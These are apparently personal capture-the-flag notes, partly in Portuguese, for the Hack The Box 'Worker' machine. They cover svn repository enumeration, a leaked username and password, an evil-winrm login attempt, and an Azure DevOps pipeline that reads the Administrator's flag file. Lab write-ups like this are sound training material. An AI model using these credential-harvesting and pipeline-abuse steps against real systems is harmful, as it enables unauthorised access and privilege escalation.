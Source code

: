 Worker
========================

![qownnotes-media-JyrKqf](../../../media/qownnotes-media-JyrKqf.png)

![qownnotes-media-GTYzfR](../../../media/qownnotes-media-GTYzfR.png)

## HTTP

![qownnotes-media-byJROO](../../../media/qownnotes-media-byJROO.png)

    svn ls svn://10.10.10.203 #list
    svn log svn://10.10.10.203 #Commit history
    svn checkout svn://10.10.10.203 #Download the repository
    svn up -r 2 #Go to revision 2 inside the checkout folder
    

![qownnotes-media-JrLaFi](../../../media/qownnotes-media-JrLaFi.png)

![qownnotes-media-qmACRI](../../../media/qownnotes-media-qmACRI.png)

![qownnotes-media-RhNYOl](../../../media/qownnotes-media-RhNYOl.png)

$user = "nathen" 

$plain = "wendel98"

    firefox http://devops.worker.htb/ekenas/_settings/
    

![qownnotes-media-vQxhrY](../../../media/qownnotes-media-vQxhrY.png)

Agora é uma questão de achar como fazer a shell reverse no Azure DevOps

Tentei dessa forma, mas não funcionou:

    evil-winrm -i 10.10.10.203 -u nathen -p wendel98

![qownnotes-media-cZNpIs](../../../media/qownnotes-media-cZNpIs.png)

```
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

# This is for htb Worker Box :)

trigger:
- master

pool: 'Setup'

steps:
- powershell: type C:\Users\Administrator\Desktop\root.txt
  displayName: 'Privesc'
```
